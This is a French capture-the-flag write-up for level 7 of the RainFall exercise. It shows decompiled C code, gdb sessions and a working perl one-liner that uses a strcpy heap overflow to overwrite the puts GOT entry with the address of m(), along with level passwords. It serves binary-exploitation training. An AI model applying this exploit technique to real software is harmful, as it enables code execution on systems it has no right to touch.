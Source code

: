 # Level 7

pass : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

## Sources :

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <time.h>

char c[80];  // 0x00000050

void	m() {
	printf("%s - %d", c, time(0));
}

int		main(int ac, char **av) {
	// void *malloc(size_t size);
	char **a;  // esp+0x1c
	a = malloc(2 * sizeof(char *));
	a[0] = 1;
	a[1] = malloc(8);

	char **b;  // esp+0x18
	b = malloc(2 * sizeof(char *));
	b[0] = 2;
	b[1] = malloc(8);

	// char *strcpy(char *dest, const char *src);
	strcpy(a[1], av[1]);
	strcpy(b[1], av[2]);

	// FILE *fopen(const char *pathname, const char *mode);
	FILE *file;
	file = fopen("/home/user/level8/.pass", "r");

	// char *fgets(char *s, int size, FILE *stream);
	fgets(c, 68, file);  // 0x44

	// 0x8048703 on .rodata segment
	puts("~~");

	return (0);
}
```

## Recherche :

On veut remplacer l'appel de `puts("~~")` par `m()`

Pour faire ça, on va exploiter les deux appels à `strcpy`.
En effet, `strcpy` copy à l'adresse indiqué par le premier élément la chaine contenue dans le second élément.

Ce qu'on veut donc, c'est `&puts` devienne `&m`.

```gdb
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```

`m` se trouve à l'adresse **`0x080484f4`**

```gdb
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

Pour `puts`, c'est un peu plus délicat, dans un `jmp` est fait, on va donc choisir directement l'adresse du `jmp`, soit **`0x08049928`**.

Ça, c'est ce que doit faire le second `strcpy`.
`strcpy(b[1], av[2]);`
On le remplacera par `b[1]` = `0x08049928` (`puts`)
`av[2]` = `0x080484f4` (`m`)

Le premier lui fait actuellement :
`strcpy(a[1], av[1]);`
on veut faire en sorte d'écrire dans `b[1]`, et y mettre la valeure de l'adresse de `puts`.
Or `a` et `b` sont contingent en mémoire, donc si on écrit suffisement loin dans a, on se mettra à écrire dans b.


```gdb
(gdb) r ABCDEFGHIJKLMNOPQRSTUVWXYZ abcd
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level7/level7 ABCDEFGHIJKLMNOPQRSTUVWXYZ abcd

Breakpoint 1, 0x080485a0 in main ()
(gdb) ni
0x080485a5 in main ()
(gdb) x/x $esp+0x18
0xbffff708:     0x0804a028
(gdb) x/2x 0x0804a028
0x804a028:      0x54535251      0x58575655
```

Ici, on voit bien que le premier agument `ABCDEFGHIJKLMNOPQRSTUVWXYZ` a été écrit dans `b` (`$esp+0x18`), et du coup à partir de la lettre 'U' (`0x55`), 20eme lettre dans `b[1]`.

Parfait !
On a tout pour notre script :
`./level7 $(perl -e 'print "A"x(20)."\x28\x99\x04\x08"') $(perl -e 'print "\xf4\x84\x04\x08"')`

## Exploit :

```bash
level7@RainFall:~$ ./level7 $(perl -e 'print "A"x(20)."\x28\x99\x04\x08"') $(perl -e 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1591626293
```
